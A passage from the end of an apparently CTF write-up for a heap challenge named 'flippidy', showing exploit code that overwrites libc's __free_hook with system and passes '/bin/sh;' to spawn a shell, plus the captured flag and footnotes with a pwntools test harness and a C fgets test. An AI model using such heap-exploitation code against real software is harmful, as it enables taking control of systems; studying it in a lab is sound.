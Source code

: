 ```python
add(0, pack(context.libc.symbols['__free_hook']))
add(0, b'\0')
add(0, pack(context.libc.symbols['system']))
add(0, b'/bin/sh;')
flip()
r.interactive()
```

`dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}`

## Footnotes

1. Note that for an odd number `notebook_size`, `notebook_size/2 == (notebook_size-1)/2` (once; non-recursive). This means that

   ````c
   i == notebook_size/2
     == (notebook_size-1)/2
     == 2*((notebook_size-1)/2) - i
     == notebook_size-1-i
   ````

2. You can test this section of the writeup with this code:

   ```python
   from pwnscripts import *
   context.binary = 'flippidy'
   context.libc_database = 'libc-database'
   context.libc = 'flip.so.6' # rename libc.so.6 to this
   r = context.binary.process()
   notebook_size = 0x404150
   def add(ind: int, cont: bytes):
       r.sendlineafter(': ', '1')
       r.sendlineafter('Index: ', str(ind))
       r.sendlineafter('Content: ', cont)
   def flip(): r.sendlineafter(': ', '2')
   
   r.sendlineafter('how big your notebook will be: ', '7')
   for i in range(3): add(i+1, b'hi')
   gdb.attach(r, gdbscript='b *0x4014d2\nc')
   flip()
   r.interactive()
   ```

3. It's important to recognise the limits of `fgets()` based inputs, and we can express this with a simple test.

   ```c
   #include <stdio.h>
   int main() {
   	char s[8];
   	for (int i = 0; i < 8; i++) s[i] = i;
   	fgets(s,8,stdin);
   	for (int i = 0; i < 8; i++) printf("%.2x",s[i]);
   }
   ```
